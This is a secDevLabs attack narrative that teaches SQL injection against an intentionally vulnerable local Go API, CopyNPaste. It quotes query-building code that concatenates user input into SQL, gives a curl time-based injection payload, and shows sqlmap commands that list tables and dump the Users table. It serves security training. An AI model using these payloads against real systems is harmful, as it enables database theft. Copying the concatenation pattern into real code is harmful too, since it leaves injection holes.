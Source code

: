 # Attack Narrative - CopyNPaste API (Injection)

The main goal of this documentation is to describe how a malicious user could exploit an Injection vulnerability intentionally intalled on CopyNPaste API from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a1/copy-n-paste) yet, you should check them before reading this narrative. 

----

## 👀

After reviewing `NewUser()` , `CheckIfUserExists()` and `AuthenticateUser()` from [`db.go`]((https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a1/copy-n-paste/app/util/db.go#)) file, it was possibile to see that some input from users are concatenated with SQL queries, as shown in the following codes: 

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

As no validation is present to these variables, SQL injections may be successfuly executed in the database. Using web interface, we send some information using form for inspect how web interface comunicates with API.

<img src="attack-0.png" align="center"/>

To confirm this, the following payload could be used that, if the application is indeed vulnerable, a 5 seconds delay will be noted after sending it:

<img src="attack-1.png" align="center"/>

Using `curl` on CLI interface, we can test again (with a 30 seconds delay):

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:3000/login 
```

Request:
<img src="attack-2.png" align="center"/>

30 seconds later: 
<img src="attack-3.png" align="center"/>

## 🔥

An attacker could now create any malicious SQL queries and send to the API that, in theory, will be executed. For this attack narrative, [sqlmap](https://github.com/sqlmapproject/sqlmap) will be used to exemplify how an automated SQL Injection attack may be performed. 

To install sqlmap on Mac you can simply type:

```sh
brew install sqlmap
```

First possible step is to create a `postRequest.txt` containing the HTTP POST itself, as shown in the following code:

```sh
POST /login HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Then we could use `-r` option and wait sqlmap perform multiples malicious requests until it finds the vulnerable parameter:

```sh
$ sqlmap -r postRequest.txt
```

<img src="attack-4.png" align="center"/>

After understanding how this database is structured, an attacker could use the following command to retrieve database details:

```sh
$ sqlmap -r postRequest.txt --tables
```

And then retrieve sensitive information from it:

```sh
$ sqlmap -r postRequest.txt -D a1db -T Users --dump
```

<img src="attack-5.png" align="center"/>
